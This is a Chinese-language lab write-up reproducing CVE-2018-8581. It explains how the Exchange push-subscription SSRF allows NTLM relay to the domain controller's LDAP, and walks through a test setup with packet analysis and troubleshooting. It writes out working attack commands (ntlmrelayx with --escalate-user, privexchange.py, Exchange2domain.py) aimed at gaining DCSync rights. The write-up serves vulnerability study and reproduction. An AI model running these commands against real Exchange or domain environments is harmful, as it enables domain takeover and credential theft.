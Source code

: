# CVE-2018-8581

## 一、原理

Exchange服务器的推送订阅接口存在SSRF，它允许为任何用户推送订阅所指定的URL，当Exchange尝试连接用户指定的URL时候，将会用`CredentialCache.DefaultCredentials`方式进行。

其中`CredentialCache.DefaultCredentials`是以最高权限`SYSTEM`权限运行，通过SSRF发送Exchange的最高权限net NTLM给攻击者，注意SSRF回连Attack是以MAIL权限。

+ 攻击1

  在调用接口时候，使用其他用户SID来伪造攻击，从而可以达到收取他人邮件，模拟他人发送邮件。攻击者利用反射攻击回到Exchange服务器去调用接口，这个时候是最高权限的调用。

+ 攻击2

  通过NTLM Relay中`HTTP -> LDAP`协议的转变，进而攻击域控。由于Exchange角色权限具有修改writeDACL权限，可以将普通域用户赋予具有DCSync权限，从而Dump域控中的Hash信息。

## 二、测试环境

windows 2012：域控 192.168.15.161

windows 2012+Exchange 2016： 邮件服务器 192.168.15.158

windows7：攻击机 192.168.15.130

域用户：geroge (也是邮件服务的用户)

## 三、复现-攻击2

### 3.1 攻击机开启服务，进行监听

`python ntlmrelayx.py -t ladp://192.168.15.161 --escalate-user geroge`

![](.\pictures\cve_2018_8581_ntlmrelay1.PNG)

等待邮件服务器回连。

### 3.2 向邮件服务器指定推送订阅的URL

`python privexchange.py -ah 192.168.15.130 192.168.15.158 -u geroge -d park.com`

输入用户口令后得到如下结果

![](.\pictures\cve_2018_8581_ews1.PNG)

脚本运行成功。抓包分析如下：

![](.\pictures\cve_2018_8581_ews2.PNG)

攻击机利用Exchange Web Services(EWS)的推送订阅功能强制Exchange服务器向任意指定的URL进行NTLM认证，这一步由563号数据包完成。在进行推送订阅时，攻击机要向Exchange服务器进行认证（wireshark中563号数据包应该是在562号数据包前的）因此，攻击者需要一个合法的普通用户身份。696号数据包为服务器的响应数据包。

### 3.3 邮件服务器回连攻击机

推送订阅成功后，稍等片刻，攻击机监听程序即收到服务器的回连数据包

![](.\pictures\cve_2018_8581_ntlmrelay2.PNG)

但是连接失败，提示未找到LDAP客户端协议，wireshark抓包分析，

![](.\pictures\cve_2018_8581_ntlmrelay3.PNG)

4187号数据包：邮件服务器回连攻击机；

4189号数据包：攻击机提示邮件服务器使用NTLM进行认证；

4196号数据包：邮件服务器发起NTLM协商；

4202号数据包：攻击机给邮件服务器重定向响应，这里不甚明白，为何如此，使用另外一个利用脚本即可（https://github.com/Ridter/Exchange2domain）。

### 3.4 更换利用脚本

`python Exchange2domain.py -ah 192.168.15.130 -u geroge -d park.com -th 192.168.15.161 192.168.15.158`

![](.\pictures\cve_2018_8581_ntlmrelay4.png)

仍然未能成功，提示在更新ACL（access control list）时发生了错误，抓包分析,

![](.\pictures\cve_2018_8581_ntlmrelay5.png)

ntlm中继成功，攻击机仿冒“PARK\MAIL$”认证成功，然而在修改ACL时权限不够。

![](.\pictures\cve_2018_8581_ntlmrelay6.png)

完整的wireshark数据包(./resources/cve_2018_8581_exchange2domain.pcapng)

值得注意的是，其他人成功的攻击案例中在NTLM中继成功后会先Create User，然后再Modifying domain ACL。

将计算机账户MAIL添加到Exchange Windows Permissions组中并重启域控，仍然提示权限不够。

[microsoft exchange 漏洞分析][https://0kee.360.cn/blog/microsoft-exchange-cve-2018-8581/]文末提到去除Exchange默认允许修改ACL的权限后便不再有权限更改ACL，根据https://support.microsoft.com/en-gb/help/4490059/using-shared-permissions-model-to-run-exchange-server文章中提到的方法，给Exchange Trusted Subsystem添加WriteDACL权限，重新攻击，即可成功。

![](./pictures/cve-2018-8581-success.PNG)

## 四、复现-攻击1

原理类似，利用ntlm中继攻击邮件服务器，同样没有成功。

## 参考资料

[microsoft exchange 漏洞分析][https://0kee.360.cn/blog/microsoft-exchange-cve-2018-8581/]



